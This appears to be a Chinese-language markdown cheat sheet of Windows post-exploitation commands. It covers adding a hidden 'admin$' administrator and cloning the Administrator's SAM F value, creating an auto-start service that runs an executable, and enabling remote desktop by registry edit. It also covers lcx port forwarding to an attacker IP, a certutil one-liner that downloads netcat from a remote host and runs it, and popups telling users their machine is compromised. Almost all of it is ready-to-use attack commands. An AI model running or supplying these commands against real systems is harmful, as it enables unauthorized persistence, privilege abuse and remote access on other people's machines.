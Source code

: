 # Windows

### 自动登录设置

```angular2html
control userpasswords2

```

### Windows注册表添加账户

> 使用命令 `net user admin$ admin /add`添加账户
>
> 使用命令 `net localgroup administrators admin$ /add`添加进管理员组
>
> 使用命令 `regedit`打开注册表，跳转到 `HKEY_LOACL_MACHINE\SAM\SAM` 发现没有展开项，需要修改权限为 `当前用户-完全控制`
> 
> 然后将继续展开 `Domains\Account\Users` 找到添加的账户导出注册表，找到对应制的F替换成Administrator账户的F值，导出
>

### 创建服务
```angular2html
sc create 服务名称 start= auto binPath= "C:\haya.exe"
```
### 删除服务
````angular2html
sc delete 服务名称
````
### 命令行开启3389(远程桌面)
```angular2html
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
```

### 端口转发
```angular2html
端口转发：
lcx -listen <监听slave请求的端口> <等待连接的端口>
lcx -slave <攻击机ip> <监听端口> <目标ip> <目标端口>
端口映射：
lcx -tran <等待连接的端口> <目标ip> <目标端口>
```

### 命令行下载文件并运行
```angular2html
Windows Server 2008 R2(已测试)

certutil.exe -urlcache -split -f http://10.2.7.16/nc12.exe C:/nc.exe&cmd.exe /c C:/nc.exe
```

### cmd弹窗(两种方式)
```angular2html

mshta vbscript:msgbox("你好，你的电脑存在高危漏洞我已经获取到你的电脑权限，请立即联系本单位网络管理员",64,"高危漏洞！！！！")(window.close)

MSG /server:127.0.0.1 * "你好，你的电脑存在高危漏洞，我已经获取到权限，请及时修复"
```

